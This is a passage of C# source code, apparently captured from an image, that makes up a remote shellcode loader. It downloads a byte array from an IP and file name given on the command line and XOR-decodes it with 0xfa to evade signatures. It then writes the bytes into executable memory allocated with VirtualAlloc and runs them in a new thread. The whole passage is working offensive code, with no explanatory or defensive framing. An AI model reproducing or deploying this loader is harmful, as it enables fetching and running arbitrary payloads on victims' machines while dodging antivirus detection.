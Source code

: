 ```csharp
                Console.WriteLine("Please provide the IP and filename as command-line arguments.");
                return;
            }

            string url = "http://" + args[0] + "/" + args[1];

            try
            {
                using (HttpClient client = new HttpClient())
                {
                    // Download the file content as a string directly into memory
                    string declaration = client.GetStringAsync(url).Result; // Blocking call
                    declaration = declaration.Trim();

                    // Use a regex to extract the byte values
                    //var match = Regex.Match(declaration, @"new byte\[\d+\] \{(.*?)\};");
                    var match = Regex.Match(declaration, @"new byte\[\d+\] \{(.*?)\};", RegexOptions.Singleline);

                    if (match.Success)
                    {
                        string byteValues = match.Groups[1].Value;
                        string[] hexArray = byteValues.Split(',');

                        // Create the byte array with the dynamic size based on the number of hex values
                        byte[] buf = new byte[hexArray.Length];

                        for (int i = 0; i < hexArray.Length; i++)
                        {
                            // Convert each hex string to a byte
                            buf[i] = Convert.ToByte(hexArray[i].Trim(), 16);
                        }

                        for (int i = 0; i < buf.Length; i++)
                        {
                            //buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
                            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
                        }

                        int size = buf.Length;

                        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

                        Marshal.Copy(buf, 0, addr, size);

                        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

                        WaitForSingleObject(hThread, 0xFFFFFFFF);
                    }
                    else
                    {
                        Console.WriteLine("The file does not contain a valid byte array declaration.");
                    }
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine($"Error reading file: {ex.Message}");
            }
        }
```